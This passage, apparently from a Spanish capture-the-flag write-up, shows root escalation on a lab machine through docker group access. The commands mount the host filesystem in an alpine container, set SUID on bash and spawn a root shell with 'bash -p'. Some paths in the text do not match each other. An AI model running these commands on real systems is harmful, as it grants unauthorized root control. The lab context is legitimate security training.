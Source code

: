 Tenemos la imagen de un alpine y no se tienen máquinas corriendo; por lo que vamos a tratar de correr la máquina montando la raiz de la máquina victima.

```
deploy@shoppy:/home/jaeger$ docker run --rm -it -v /:/mnt alpine /bin/sh
/ # whoami
root
/ #
```

Dentro del contenedor tenemos montada la raíz de la máquina víctima, por lo que podemos retocar el archivo `/bin/sh` y darle permisos SUID.

```
/mnt/usr/bin # pwd
/mnt/bin
/mnt/usr/bin # chmod 7555 bash
/mnt/usr/bin # ls -la bash
-r-sr-sr-t    1 root     root       1234376 Mar 27  2022 bash
/mnt/usr/bin # exit
```

Nos salimos del contenedor y ejecutamos `bash -p` para convertirnos en **root**.

```
deploy@shoppy:/home/jaeger$ 
deploy@shoppy:/home/jaeger$ bash -p
bash-5.1# whoami
root
bash-5.1#
```

A este punto ya somo el usuario root y podemos visualizar la flag root.txt.
